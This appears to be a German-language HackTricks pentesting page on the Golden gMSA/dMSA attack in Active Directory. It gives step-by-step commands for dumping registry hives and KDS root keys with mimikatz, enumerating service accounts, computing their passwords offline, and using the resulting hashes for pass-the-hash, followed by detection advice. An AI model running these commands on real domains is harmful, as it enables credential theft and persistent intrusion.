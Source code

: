 # Golden gMSA/dMSA Angriff (Offline-Ableitung von Passwörtern für verwaltete Dienstkonten)

{{#include ../../banners/hacktricks-training.md}}

## Übersicht

Windows Managed Service Accounts (MSA) sind spezielle Prinzipien, die entwickelt wurden, um Dienste auszuführen, ohne dass die Passwörter manuell verwaltet werden müssen. Es gibt zwei Hauptvarianten:

1. **gMSA** – gruppenverwaltetes Dienstkonto – kann auf mehreren Hosts verwendet werden, die in seinem `msDS-GroupMSAMembership` Attribut autorisiert sind.
2. **dMSA** – delegiertes Managed Service Account – der (Vorschau-) Nachfolger von gMSA, der auf derselben Kryptografie basiert, aber granularere Delegationsszenarien ermöglicht.

Für beide Varianten wird das **Passwort nicht** auf jedem Domain Controller (DC) wie ein regulärer NT-Hash gespeichert. Stattdessen kann jeder DC das aktuelle Passwort **on-the-fly** ableiten von:

* Dem forestweiten **KDS Root Key** (`KRBTGT\KDS`) – zufällig generierter GUID-benannter Geheimnis, das auf jeden DC im `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` Container repliziert wird.
* Der Zielkonto **SID**.
* Einer pro Konto **ManagedPasswordID** (GUID), die im `msDS-ManagedPasswordId` Attribut gefunden wird.

Die Ableitung ist: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 Byte Blob, das schließlich **base64-kodiert** und im `msDS-ManagedPassword` Attribut gespeichert wird. Kein Kerberos-Verkehr oder Domäneninteraktion ist während der normalen Passwortnutzung erforderlich – ein Mitglieds-Host leitet das Passwort lokal ab, solange es die drei Eingaben kennt.

## Golden gMSA / Golden dMSA Angriff

Wenn ein Angreifer alle drei Eingaben **offline** erhalten kann, kann er **gültige aktuelle und zukünftige Passwörter** für **jedes gMSA/dMSA im Forest** berechnen, ohne den DC erneut zu berühren, wodurch umgangen wird:

* Kerberos-Vorautorisierung / Ticketanforderungsprotokolle
* LDAP-Leseaudits
* Passwortänderungsintervalle (sie können vorab berechnen)

Dies ist analog zu einem *Golden Ticket* für Dienstkonten.

### Voraussetzungen

1. **Forest-weite Kompromittierung** von **einem DC** (oder Enterprise Admin). `SYSTEM`-Zugriff ist ausreichend.
2. Fähigkeit, Dienstkonten aufzulisten (LDAP-Lesen / RID-Brute-Force).
3. .NET ≥ 4.7.2 x64 Arbeitsstation, um [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) oder gleichwertigen Code auszuführen.

### Phase 1 – Extrahieren des KDS Root Key

Dump von jedem DC (Volume Shadow Copy / rohe SAM+SECURITY-Hives oder entfernte Geheimnisse):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too
```
Der base64-String mit der Bezeichnung `RootKey` (GUID-Name) wird in späteren Schritten benötigt.

### Phase 2 – Enumerieren von gMSA/dMSA-Objekten

Rufen Sie mindestens `sAMAccountName`, `objectSid` und `msDS-ManagedPasswordId` ab:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implementiert Hilfsmodi:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
### Phase 3 – Erraten / Entdecken der ManagedPasswordID (wenn fehlend)

Einige Deployments *entfernen* `msDS-ManagedPasswordId` von ACL-geschützten Lesevorgängen. 
Da die GUID 128-Bit ist, ist naives Brute-Forcing unpraktisch, aber:

1. Die ersten **32 Bit = Unix-Epoche** der Kontoerstellung (Minutenauflösung).
2. Gefolgt von 96 zufälligen Bits.

Daher ist eine **enge Wortliste pro Konto** (± wenige Stunden) realistisch.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
Das Tool berechnet Kandidatenpasswörter und vergleicht ihren Base64-BLOB mit dem echten `msDS-ManagedPassword`-Attribut – die Übereinstimmung zeigt die korrekte GUID an.

### Phase 4 – Offline-Passwortberechnung & -konvertierung

Sobald die ManagedPasswordID bekannt ist, ist das gültige Passwort nur einen Befehl entfernt:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID>

# convert to NTLM / AES keys for pass-the-hash / pass-the-ticket
GoldendMSA.exe convert -d example.local -u svc_web$ -p <Base64Pwd>
```
Die resultierenden Hashes können mit **mimikatz** (`sekurlsa::pth`) oder **Rubeus** für Kerberos-Missbrauch injiziert werden, was stealth **lateral movement** und **persistence** ermöglicht.

## Detection & Mitigation

* Beschränken Sie die **DC-Backup- und Registry-Hive-Lese**-Fähigkeiten auf Tier-0-Administratoren.
* Überwachen Sie die Erstellung des **Directory Services Restore Mode (DSRM)** oder der **Volume Shadow Copy** auf DCs.
* Protokollieren Sie Lesevorgänge / Änderungen an `CN=Master Root Keys,…` und `userAccountControl`-Flags von Dienstkonten.
* Erkennen Sie ungewöhnliche **base64 Passwortschreibvorgänge** oder plötzliche Wiederverwendung von Dienstpasswörtern über Hosts hinweg.
* Ziehen Sie in Betracht, hochprivilegierte gMSAs in **klassische Dienstkonten** mit regelmäßigen zufälligen Rotationen umzuwandeln, wo eine Tier-0-Isolation nicht möglich ist.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – Referenzimplementierung, die auf dieser Seite verwendet wird.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket unter Verwendung abgeleiteter AES-Schlüssel.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
